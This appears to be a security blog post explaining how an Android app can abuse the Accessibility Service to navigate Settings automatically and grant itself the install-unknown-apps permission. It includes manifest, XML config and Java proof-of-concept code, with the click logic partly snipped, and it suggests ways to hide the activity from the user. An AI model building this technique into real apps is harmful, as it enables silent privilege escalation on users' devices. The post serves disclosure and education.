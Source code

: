 ## About Android security

### [~$ cd ..](../)

### ~$ cat How_an_Android_app_could_escalate_its_privileges.txt

### About Accessibility Service

A few months ago, I heard about the malware Shedun, abusing the Accessibility Service of Android in order to do the bad things malwares do. In my opinion,
it's as simple as it's clever. As the documentation says:

>Accessibility services **should** only be used to assist users with disabilities in using Android devices
>and apps. They run in the background and receive callbacks by the system when AccessibilityEvents are fired. Such events denote some state transition in
>the user interface, for example, the focus has changed, a button has been clicked, etc. Such a service can optionally request the capability for querying
>the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods."

In other words, it's a kind of component being put between the application and the user. Is it a good thing ? On one hand, yes, it is. AS makes the app more usable, and as we can read in the doc:
_Note: Although it's beneficial to add accessibility features in your app, you should use them only for the purpose of helping users with disabilities interact with your app._

On the other hand, as we can easily imagine, there will be some problems in case of misuse ... Indeed, a malicious application implementing this service could then "capture" the screen before display and interact with.
Actually, it could be harmless (or at least to a lesser extent), if the service was not able to interact with other applications. Imagine how dangerous an application upgrading its privileges could be... 

Does it seem so unrealistic ? Let's take a closer look ...

### Setting up an Accessibility Service

To create an Accessibility Service, an application has to register it in the Manifest.xml, for example

> ```xml
> <service android:name=".services.CustomAccessibilityService"
>	android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
>	<intent-filter>
>	<action android:name="android.accessibilityservice.AccessibilityService"/>
>	</intent-filter>
>	<meta-data android:name="android.accessibilityservice"
>		android:resource="@xml/accessibility_config"/>
> </service>
> ```

The configuration could be done in Java, but some parameters (the most interesting ones actually) can only be set using XML:

> ```xml
><accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
>	android:accessibilityEventTypes="typeWindowContentChanged"
>	android:packageNames="com.android.settings, xyz.noname.spyapp"
>	android:accessibilityFeedbackType="feedbackAllMask"
>	android:notificationTimeout="100"
>	android:canRetrieveWindowContent="true"/>
> ```

We can see in the snippet just above three interesting things:
* the service will be called each time the content of the window changes
* two applications will be concerned: mine and Settings
* the service is allowed to get the content of the current window

### Java part

It's then time to code the class `CustomAccessibilityService`! The class has to extend `AccessibilityService`:

> ```java
>public class CustomAccessibilityService extends AccessibilityService {
>	@Override
>	public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	}
>
>	@Override
>	public void onInterrupt() {
>	}
>}
> ```

The routine `onAccessibilityEvent` is the most important here, because it's the one which will allow the developer to catch all events.
I have to make the difference between events coming from my application, and those coming from Settings.

The principle of the application is quite simple:
* check if my app has privileges. If not, launch the app Settings
* reach the panel where my app will toggle the right switch
* go back to my app

_Since it's only a PoC, the code is quite dirty and will probably not work on another device. The one I used on the emulator is a Nexus 5X_

The most difficult part is to browse through the settings and find the right page. To do this, I decided to use a stack containing keywords, and creating a kind
of "path" for my service. Each time the top of the stack is found on a widget, a click is programmatically done. 

Then, since events coming from my application will appear at the beginning, I set up my stack at this moment. For events coming from Settings, a loop is used to follow
the right path.

> ```java
>@Override
>public void onAccessibilityEvent(AccessibilityEvent accessibilityEvent) {
>	switch (accessibilityEvent.getPackageName().toString()){
>		case BuildConfig.APPLICATION_ID:
>			if (stack == null){
>				stack = new Stack<>();
>			}
>			else if (stack.size() != 5){
>				stack.push("spyapp");
>				stack.push("unknown");
>				stack.push("special");
>				stack.push("advanced");
>				stack.push("app");
>			}
>			break;
>		case Constants.PACKAGE_SETTINGS:
>			AccessibilityNodeInfo info = accessibilityEvent.getSource();
>			if (info != null && this.stack != null) {
>				for (int i = 0; i < info.getChildCount(); i++) {
>					lookForPermissionsPanel(info.getChild(i));
>				}
>			}
>		break;
>	}
>}
> ```

Then, the job is done by the routine `lookForPermissionsPanel` which recursively scans the view, and tries to find the string on the top of the stack:

> ```java
>private boolean lookForPermissionsPanel(AccessibilityNodeInfo info) {
>	if (info == null)
>		return false;
>	for (int c = 0; c < info.getChildCount(); c++){
>		if (lookForPermissionsPanel(info.getChild(c))) {
>			return true;
>		}
>	}
>	if (info.getText() != null){
>		String text = info.getText().toString().toLowerCase();
>		if (!stack.empty() && (text.contains(stack.peek()) || text.equalsIgnoreCase(stack.peek()))){
>			stack.pop();
>			/**
>			 * <snipped>
>			 * here we deal with clickable widgets. To force the click, we use performAction(AccessibilityNodeInfo.ACTION_CLICK); on the node
>			 * or on its parent. 
>			 * </snipped>
>			 **/
>		}
>		else{
>			/**
>			 * <snipped>
>			 * the stack is empty and we have to deal with the final toggle button, and to close Settings
>			 * </snipped>
>			 **/
>		}
>	}
>	return false;
>}
> ```

_The routine returns true when a widget has been clicked_

And finally, in the the main activity, we only have to launch Settings if our app doesn't have the desired privileges:
> ```java
>@Override
>protected void onCreate(@Nullable Bundle savedInstanceState) {
>	super.onCreate(savedInstanceState);
>	LinearLayout layout = (LinearLayout) LinearLayout.inflate(this, R.layout.activity_main, null);
>	TextView text = layout.findViewById(R.id.text);
>	text.setText(!getPackageManager().canRequestPackageInstalls() ? "Cannot install unknown apps" : "Allowed to install unknown apps");
>	if (!getPackageManager().canRequestPackageInstalls() && isAccessibilitySettingsOn() && !Util.hasPermission(Manifest.permission.REQUEST_INSTALL_PACKAGES, this)) {
>		Intent intent = context.getPackageManager().getLaunchIntentForPackage(Constants.PACKAGE_SETTINGS);
>		if (intent != null) {
>			intent.addCategory(Intent.CATEGORY_LAUNCHER);
>			startActivity(intent);
>		}
>	}
>	setContentView(layout);
>}
> ```

where `hasPermission` is a routine returning true if the app has a permission, and `isAccessibilitySettingsOn` is another routine checking if our app is allowed to
use the accessibility service (inspired by [this solution])(https://stackoverflow.com/questions/5081145/android-how-do-you-check-if-a-particular-accessibilityservice-is-enabled)

### So what ?

We might think that it's not terrible since the user will see my app do its malicious job, and react quickly. It's true, but I think about 2 things:
* imagine that the malicious app is designed to do an unrecoverable thing. If the app is fast enough, the damage will be done
* there are maybe some tricks to hide the malicious activity. Let's say, set the brightness to 0 (even if it requires the permission WRITE_SETTINGS. Why not, social engineering is often better than expected)

here is a video showing the app running. As you can see, there is no permission at the beginning, and the app will escalate its privileges by browsing through Settings (the pointer doesn't appear at this moment):

[![video_poc](video.png)](https://youtu.be/7SMHSPEBcAw)
